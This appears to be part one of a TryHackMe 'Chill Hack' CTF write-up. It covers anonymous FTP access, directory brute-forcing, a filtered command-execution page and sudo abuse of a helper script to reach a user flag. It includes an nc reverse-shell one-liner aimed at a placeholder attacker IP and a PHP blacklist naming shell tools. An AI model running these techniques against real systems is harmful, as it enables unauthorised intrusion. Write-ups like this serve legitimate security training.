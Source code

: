 ```yaml
---
title : "TryHackMe: Chill Hack WriteUp - PART 1"
author : Seif-Allah
description : "TryHackMe: WriteUp for the Chill Hack room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,Chill Hack,Medium,CTF]
image : /assets/images/writeups/thm/chillhack/chillhack.png

---
```

### Enumeration
Classic Nmap scan : 
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
First things first, I start enumerating the FTP port wishing that it accepts anonymous login:
```bash
ftp 10.10.146.220
Connected to 10.10.146.220.
220 (vsFTPd 3.0.3)
Name (10.10.146.220:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03 04:33 .
drwxr-xr-x    2 0        115          4096 Oct 03 04:33 ..
-rw-r--r--    1 1001     1001           90 Oct 03 04:33 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (90 bytes).
226 Transfer complete.
90 bytes received in 0.00 secs (703.1249 kB/s)
```
As you can see,It accepts anonymous login, :WEEY: So I list all the files and it contains a *note.txt* file. 
I download it using the *get* command. 

> Anurodh told me that there is some filtering on strings being put in the command -- Apaar

Well, that sounds cool, we got a hint, there's some filtration out there for strings. (Hope that it's not a rabbit hole), and we got 2 usernames. (We can start a bruteforce attack using hydra on the ssh but not for now, we need some more enumeration).

Let's move on for the HTTP server:
![HTTP Server](/assets/images/writeups/thm/Chill hack/HTTP_server.png)
Nothing too fancy here, just some random theme running. 

So I ran *gobuster* for some directory searching.
After some minutes of directory bruteforcing here's the result : 
```bash
root@kali:~/Documents/thm/game_info# gobuster dir -u http://10.10.146.220/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 2>/dev/null 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.146.220/
[+] Threads:        200
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/18 07:29:47 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/secret (Status: 301)
```
Well, as it's in easy level, that was kinda expected.
There's a */secret* directory. 
Let's check it inside our browser : 
![/secret](/assets/images/writeups/thm/chillhack/secret_directory.png)
Hmm, a field expecting a command and an execute button, with a silly animation ! 
Let's execute an *ls* command and see what happens ? 
![/hacker](/assets/images/writeups/thm/chillhack/hacker.png)
So, there's some filtration for some commands like ls.
I tried *cat*, *python* and *nc* commands but they're all filtered. 
I tried to split the commands with a semicolon but nothing changed. 
So my final thought is that it filters some the string entered as an input.
My first idea is to try a reverse shell found in [highon coffee blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/) : 
```bash
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
![reverse](/assets/images/writeups/thm/chillhack/reverse.png)
Looking at the index.php file found in the /var/www/html/secret directory, I found that my guessing was true, there's a blacklist array which contains some commands that are gonna filtered later. 
```php
$cmd = $_POST['command'];
$store = explode(" ",$cmd);
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```
Let's spawn a tty shell and move on.
Looking at the home directory, I found that there's a directory called *apaar* (remember the hint ?).
After checking it, I found a local.txt file which I don't have permission to read and a .helpline.sh file which can be run as apaar (after checking *sudo -l*) 
```bash
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
Reading the code, it looks like it executes whatever we type and redirects the error the /dev/null, so I executed */bin/bash* to get a shell from the user *apaar* and run any command we want !
```bash
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: seif
seif
Hello user! I am seif,  Please enter your message: /bin/bash
/bin/bash
ls
ls
local.txt
whoami
whoami
apaar
cat local.txt
cat local.txt
{USER-FLAG: REDACTED-REDACTED-REDACTED}
```
Bingo ! We got the first flag 
